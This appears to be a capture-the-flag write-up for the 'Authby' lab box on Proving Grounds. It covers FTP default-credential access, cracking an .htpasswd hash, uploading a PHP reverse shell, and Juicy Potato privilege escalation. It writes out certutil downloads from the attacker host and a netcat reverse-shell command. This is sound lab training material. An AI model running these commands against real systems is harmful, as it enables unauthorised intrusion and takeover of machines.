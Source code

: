 # **Authby | Proving Grounds Practice**


***

## **Difficulty == Hard**


![image](https://i.pinimg.com/originals/e6/ef/60/e6ef60252e1a13ba001279c54f868ce0.gif)


***



Running an nmap scan we have:



```
# Nmap 7.94SVN scan initiated Sun Jul  7 15:06:55 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt -Pn 192.168.223.46
Nmap scan report for 192.168.223.46
Host is up (0.15s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
21/tcp   open  ftp                zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
--SNIP--
242/tcp  open  http               Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-title: 401 Authorization Required
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
3145/tcp open  zftp-admin         zFTPServer admin
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2024-07-07T14:09:50+00:00
|_ssl-date: 2024-07-07T14:09:55+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=LIVDA
| Issuer: commonName=LIVDA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-04-10T18:40:02
| Not valid after:  2024-10-10T18:40:02
| MD5:   f90f:0605:514d:dfe9:715d:b588:528e:16de
|_SHA-1: db3a:b973:d0f5:6dcc:f1e2:f121:1a95:e956:8c8d:a632
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul  7 15:09:57 2024 -- 1 IP address (1 host up) scanned in 181.67 seconds
```



Anonymous login is enabled on the default FTP server but we can't download files neither can we put files

![](https://i.imgur.com/MWxJ8xe.png)


On port 242/HTTP we have an encrypted websites, We can't bruteforce cos we don't have a username



![](https://i.imgur.com/3WWYmZ3.png)



There is another FTP port but anonymous login isn't enabled


![](https://i.imgur.com/lQ6tZ7A.png)


Navigated back to the default FTP server and under the accounts directory we can see some lists of accounts



![](https://i.imgur.com/1XhyeKi.png)



Decided to try out the account `admin` and password `admin` which worked



![](https://i.imgur.com/uPNWiCH.png)



Downloaded all the files which was possible xD


![](https://i.imgur.com/y0hsn3l.png)


Under the `.htpasswd` file we have an encrypted password and username, looks like what we need for the web app login endpoint



![](https://i.imgur.com/65LUkZ0.png)


I also confirmed if the FTP server is connected to the web application which is true cos trying to read `.htpasswd` which was available at the FTP server is probably readable on the web application if we did not have a `403` status code



![](https://i.imgur.com/ZNoNiWr.png)



Decided to crack the password we got with `JtR` and we got a valid set of credential



```
john .htpasswd --wordlist=/usr/share/wordlists/rockyou.txt
```



![](https://i.imgur.com/jSgILCH.png)



Logged in via the web application endpoint and it was successful as seen below


![](https://i.imgur.com/xSdYWpk.png)


I also make sure to confirm if we had this same text in the `index.php` file downloaded from the FTP server


![](https://i.imgur.com/m7I53a7.png)


## **FootHold**


Saved Ivan Sinceck PHP shell to a file and use the `put` command to upload to the FTP server then executed it from the URL making sure i have my listener turned on



```
nc -lvnp 4444
```




![](https://i.imgur.com/xPsxY7f.png)



I found out that we have the `SeImpersonatePrivilege` and we can use this to escalate to administrator, the below command retrieves and displays specific system information, including the host name, OS name, OS version, system type, and hotfixes installed, from the output of the `systeminfo` command.



```bash
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
```




![](https://i.imgur.com/7RjHWnh.png)


We can see that this is a `x86` system so we need 32 bit binaries, Transferred Juicy Potato which can be gotten from [here](https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2), the netcat 32 bit version can also be googled online.



```
certutil -urlcache -f http://192.168.45.213/Juicy.Potato.x86.exe Juicy.Potato.x86.exe

certutil -urlcache -f http://192.168.45.213/nc.exe nc.exe
```



Then we need the CLSID to actually make this work, You can get the CLSID from [https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/)




```
.\Juicy.Potato.x86.exe -t * -p c:\windows\system32\cmd.exe -a "/c C:\wamp\bin\apache\Apache2.2.21\nc.exe 192.168.45.213 1337 -e cmd.exe" -l 1337 -c "{3c6859ce-230b-48a4-be6c-932c0c202048}"
```




![](https://i.imgur.com/EguxHg4.png)




Bankaaaaiiiii ⚔️


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>



